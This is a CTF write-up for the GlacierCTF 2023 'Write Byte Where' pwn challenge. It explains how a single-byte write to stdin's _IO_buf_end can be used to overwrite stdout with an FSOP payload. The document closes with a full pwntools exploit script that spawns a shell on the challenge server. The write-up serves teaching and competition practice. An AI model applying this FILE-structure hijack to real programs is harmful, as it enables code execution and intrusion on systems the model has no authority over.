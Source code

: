 ## Write Byte Where

was a pwn challenge from GlacierCTF 2023.

This is the only challenge I had time to do, as I was busy during this CTF.  The other challenges looked great too..

This challenge was a "**pwn with only one byte**" type of challenge, and it was a bit tricky.

------

### 1 - What it is about?

The challenge is pretty small, so here is the `main()` (and only) function:

![main](./pics/main.png)

+ The challenge disable buffering on `stdin`, `stderr`, and `stdout`with `setbuf()`
+ It open `/proc/self/maps` and dump it, so we know the actual mapping of the program and the libs. It even give us a stack address.
+ Then it ask for a 64bit address, and write a `char` (a single byte) to this address
+ after this, there is a sequence of: `getchar()`, `puts()`, `getchar()`, and `exit(0)`

The program has all protections on, except `canary`

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

------

### 2 - So what's next ?

The way I exploited it is a bit tricky, and discussing with the author, it looks like it's not the "intended way". (But hackers don't care about intended way no?)

> The program was using an Alpine linux libc: `glibc-2.38-2`, and the authors only provided the stripped version, and as it was an old version I could not find the debug symbols for it, so it was a bit painful to debug. I did use the `glibc-2.38-7` version for developing my exploit, which is the last version, and for which we can found the debug symbols. I had to adapt the offsets for the older version once my exploit worked.

As the buffering is disabled on `stdin`, `stderr`, and `stdout`, if we have a look to `_IO_2_1_stdin_`in memory:

![stdin1](./pics/stdin1.png)

We can see that there is a one byte buffer, that starts in this example at `0x7fb2a1131963` and finish at `0x7fb2a1131964`. That's the normal behavior of `stdin`when buffering is disabled. So only one byte read from `stdin`will be stored in this buffer. This buffer is in the middle of the `stdin`structure:

![stdin2](./pics/stdin2.png)

You can see the buffer in the picture above at address `0x7fb2a1131963`, and you can see that there is byte `0xa` (in red) stored in it. That's a carriage return ending a previous input.

But if we modify the `_IO_buf_end` entry of stdin, we can restore the buffering that was disabled. For example we can overwrite with our byte the LSB of  `_IO_buf_end` or even better the byte above the LSB to extend the buffer further in memory.

What will happen when a function will try to read from `stdin`, like `getchar()` for example, is that the data sent on stdin will be buffered in the buffer, and we will overwrite the last part of stdin, and further in memory up to `_IO_buf_end`.

`getchar()`will still return only one byte, but the additional data sent will be written in our new buffer, it will be buffered.

That is interesting because `stdout` is further in memory `0xce0` bytes after `stdin`, and so we will be able to overwrite `stdout` (and `stderr`which is on the way before  `stdout`).

We will just have to take care of restoring the end of `stdin` on the way. The zone between `stdin`and `stdout`will be filled with zeroes. 

For example if we overwrite the second lsb of `_IO_buf_end`, to extend the buffer up to after `stdout`then we send a long 'AAAAAAA....'  string as input to `getchar()`, here is the resulting `stdin`after:

![stdin3](./pics/stdin3.png)

You can see that `_IO_buf_end` as been extended to `0x7fb2a1132764`, and that our string as overwrite the rest of `stdin` structure...You got the idea.

so to resume the process lets look at the succession of functions that we will use and abuse:

```c
  scanf("%c", target);
  getchar();
  puts("Goodbye! (press  Enter  to exit)");
```

+ with the `scanf()` we will overwrite `_IO_buf_end` second LSB in `stdin`, to expand the buffer over `stdout`
+ with the `getchar()` we will send a payload that will be written over the end of  `stdin` up to the end of `stdout`, and we will write a classic FSOP over `stdout`to get code execution when a function will use `stdout` (see [https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout))

+ `puts()` will try to output on `stdout`, that will execute our FSOP payload, that will execute `system(/bin/sh)`

And that's finish.. we got shell.

![shell](./pics/shell.gif)

------

### 3 - The exploit.

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF("vuln_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "chall.glacierctf.com", "13374"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path], aslr=True)
# get various leaks, we only need libc actually.
context.log_level = 'info'
libcl = 0
line = p.recvuntil('\n')
parts = line.split(b'-')
prog = int(parts[0],16)
exe.address = prog
logleak('prog base', exe.address)
while True:
  line = p.recvuntil('\n')
  if ((b'libc.so.6' in line) and (libcl==0)):
    parts = line.split(b'-')
    libcl = int(parts[0],16)
    libc.address = libcl
    logbase()
    break
# get stack leak
stack = int(rcu('extra: ', '\n'),16)
logleak('stack', stack)

# calculate second LSB of address after stdout
val = ((libc.sym['_IO_2_1_stdout_']+0x300) & 0xff00)>>8
# overwrite _IO_buf_end second LSB in stdin
sla('Where: ',  str(libc.sym['_IO_2_1_stdin_']+0x41))
sa('What: ', p8(val))

# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x240710   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x000000000014a870 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

# we restore end of stdin that is overwritten in the payload first, then stdout
# we will fill with zeroes in betweend (stderr will be erased, but that works...)
payload = flat({
  5: p64(libc.address+0x240720)+p64(0xffffffffffffffff)+p64(0)+p64(libc.address+0x23e9c0)+p64(0)*3+p64(0x00000000ffffffff)+p64(0)*2+p64(libc.sym['_IO_file_jumps']),
  0xc5d: bytes(fake),
}, filler=b'\x00')
# remote exploit need a pause before sending the payload, because of latency
if args.REMOTE:
  sleep(1)
p.send(payload)
#enjoy shell now
p.interactive()

```

*nobodyisnobody still hacking things.*